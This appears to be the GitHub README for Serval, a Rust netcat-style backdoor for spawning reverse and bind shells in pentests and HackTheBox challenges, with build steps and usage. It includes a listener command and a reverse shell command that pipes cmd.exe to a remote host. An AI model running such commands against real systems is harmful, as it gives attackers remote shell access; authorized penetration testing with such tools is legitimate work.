 ## A Netcat style backdoor for pentesting and pentest challenges

Serval is a lightweight, easy-to-use, binary for spawning reverse and bind shells for pentests or pentesting exercises. Serval is cross platform and can be compiled for both Windows 32 & 64-bit and Linux 32 and 64-bit. Note: Due to the flexibility of Rust
it may be possible to compile for other platforms (such as ARM) but I have not tested for other platforms. 

### Why? 
I developed Serval to remove my dependecy on netcat during HacktheBox challenges since it can be bothersome to find netcat binaries for Windows (especially with the -e option) and it is even more difficult to find a binary from a trusted source.

### Installation

#### Rust Users (Compile from source)

Download the source from github
> git clone https://github.com/tgadola/serval.git && cd serval-master

*Optional: Edit the build file at .cargo/config to rewrite your buildpath.

Build the binary for your current platform. 
> cargo build --release

You can build for other platforms using 
> cargo build --release --target \<target-triple>

#### Other
Pre-built binaries coming soon! Check back in a few days! 

### Usage

By default Serval will either listen or connect to a port and pipe standard input and output to that connection. The -e flag will spawn a process and pipe its standard input and output across the network. 

#### Start a listener
Serval listens on all interfaces
> serval -l 4400

#### Spawn a reverse shell 
> serval \<listening ip> \<listening port> -q -e cmd.exe

#### ????

#### Profit

### License

Apache 2.0. See the License file for more info.